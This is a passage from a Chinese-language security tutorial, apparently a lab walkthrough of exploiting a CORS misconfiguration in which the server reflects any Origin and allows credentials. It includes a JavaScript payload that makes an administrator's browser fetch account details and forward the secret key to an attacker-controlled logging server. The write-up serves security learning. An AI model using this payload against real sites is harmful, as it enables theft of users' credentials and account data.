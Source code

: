 3. ![image-20230606095937841](img/java/image-20230606095937841.png)

   查询到请求token时带有Access-Control-Allow-Credentials,说明该程序是使用cors的，同时允许携带cookie信息。

4. 向相同的地方发送一个请求，带上随便一个Origin地址，发现该程序本质上是不检查origin的情况下动态的获取origin并返回，所以允许互联网上任意站点访问其任意公共资源。![image-20230606100855347](img/java/image-20230606100855347.png)

5. 编写以下程序并让网站管理员的浏览器执行

   ```js
   <script>
       var req = new XMLHttpRequest();
       req.onload = reqListener;
       req.open('get','网站地址/accountDetails',true);
       req.withCredentials = true;
       req.send();
       function reqListener() {
           location='你的记录服务器/log?key='+this.responseText;
       };
   </script>
   ```
   
6. ![image-20230606101857214](img/java/image-20230606101857214.png)

   就能发现管理员已经将秘钥发送到自己的网站了。(网站地址需要区分http和https,否则会报404错误)

## Tomcat Session
